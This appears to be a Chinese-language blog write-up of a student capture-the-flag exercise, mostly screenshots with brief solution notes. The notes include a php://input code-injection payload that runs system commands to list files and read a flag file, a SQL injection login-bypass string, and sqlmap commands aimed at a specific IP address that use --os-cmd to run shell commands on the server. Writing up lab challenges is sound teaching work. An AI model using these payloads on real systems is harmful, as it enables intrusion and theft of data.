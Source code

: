 ```yaml
---
title: 22年网安小学期-CTF
---
```

# 22年网安小学期-CTF

# 木册木兰

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)

- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造 `php://input`，利用 `system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令 `<?php system("cat /flag.txt");?>`获得flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
